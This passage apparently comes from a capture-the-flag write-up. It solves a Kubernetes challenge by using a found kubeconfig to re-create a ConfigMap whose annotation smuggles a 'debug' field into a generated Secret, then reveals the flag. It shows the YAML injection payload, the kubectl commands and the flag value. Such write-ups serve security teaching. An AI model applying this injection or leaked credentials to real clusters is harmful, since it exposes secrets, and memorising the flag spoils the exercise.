

Since the discovered credential file now allows to create an arbitrary config map, a map can be created for which the `sam-operator/project_quota` annotation will contain a value such that it will inject the `debug` field into the Secret at the position marked below.



For this attack to be successful, a ConfigMap first must be created through the web interface so that the app saves the ID in the session and displays it on the `/status` page.



The newly created ConfigMap is named `request-2800d702e2cf210a884987bde33e9bfd`. This now allows to utilize the YAML payload along with the two commands shown below to delete the ConfigMap originally created by the application and then re-create it with the `debug` field injected into the `project_quota` field. Note that even though the ConfigMap will be deleted through `kubectl`, the application still keeps the ID saved in the session and will show the details again once the map is re-created.

```yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: "request-2800d702e2cf210a884987bde33e9bfd"
  namespace: "sam-queue"
  annotations:
    sam-operator/project_name: "hello-there"
    sam-operator/project_quota: "1GB\"\n  debug: \"true"
```

```
$ kubectl --kubeconfig kubecreds-jacob.config delete -f payload.yaml
$ kubectl --kubeconfig kubecreds-jacob.config create -f payload.yaml
```

The part of the `UPDATE_TEMPLATE` used for the Secret creation will look as follows once the application processes the malicious ConfigMap.

```yaml
apiVersion: v1
kind: Secret
metadata:
  name: "request-2800d702e2cf210a884987bde33e9bfd"
  namespace: "sam-queue"
stringData:
  storage: "..."
  access_token: "..."
  quota: "1GB"
  debug: "true"
```

Once the hook runs and the app creates the Secret with the injected `debug` field, the condition to reveal the app's session and config is fulfilled. The printed app config contains the flag.



### Flag

`FLAG{nP0c-X9Gh-bee7-iWxw}`